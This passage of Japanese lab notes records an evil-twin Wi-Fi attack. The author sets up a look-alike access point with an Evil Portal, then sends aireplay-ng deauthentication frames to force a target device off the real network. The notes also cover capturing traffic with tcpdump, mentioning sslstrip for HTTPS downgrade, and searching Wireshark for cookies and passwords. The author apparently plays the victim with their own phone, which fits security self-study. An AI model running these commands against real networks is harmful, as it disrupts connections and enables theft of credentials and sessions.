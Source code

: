 ### 5. 偽APを立ち上げて接続させる: 成功
- 4では全く同じSSIDとBSSIDで上手く行かなかったので、似ているSSIDのAPを作成して接続させる
- 偽AP: 1337_WiFi_5Gに設定
- ![alt text](../assets/images/Screenshot_2025-02-09_170532.png)
- デバイスの特定: `airodump-ng --bssid C0:5B:12:1E:88:DF -c 5 -w /sd/handshake wlan1mon`
- デバイス：12:D1:5F:69:41:FC
- Evil Portal立ち上げる
- 偽APのシグナルを強めてターゲットデバイスをDeAuthで本物のAPから断続的に切断させる
```sh
iwconfig wlan0-1 txpower 30 #送信電力を最大化
aireplay-ng --deauth 100 -a C0:5B:12:1E:88:DF -c 12:D1:5F:69:41:FC wlan1mon
```
- 被害者になったつもりでスマホを操作。接続が切れて何度かやり直したが上手くいかなかったので、5G回線にでログインした。
- ![alt text](../assets/images/Screenshot_2025-02-09_171612.png)

### 6. ターゲットの通信をキャプチャ

- 通信をキャプチャ: `tcpdump -i br-lan -w /sd/capture.pcap`
- WPA&WPA2 Crackで使用したコマンドとの違い：`tcpdump -i wlan1mon -w /sd/practice7.pcap`
- ![alt text](../assets/images/Screenshot_2025-02-09_172730.png)
- 問題点: HTTPS通信は暗号化されているのでそのままでは読めない (sslstrip でダウングレードが必要)
- キャプチャファイルの移動:`scp root@172.16.42.1:/sd/capture.pcap C:\Users\ebisu\Desktop\`

### 7. Wiresharkで解析

- 重要なパケットを探す
   - HTTPリクエスト: GET / や POST / のパケットをチェック
   - クッキー情報: Set-Cookie ヘッダーを探す
   - 認証情報: username=xxxxx&password=xxxxx のようなデータ

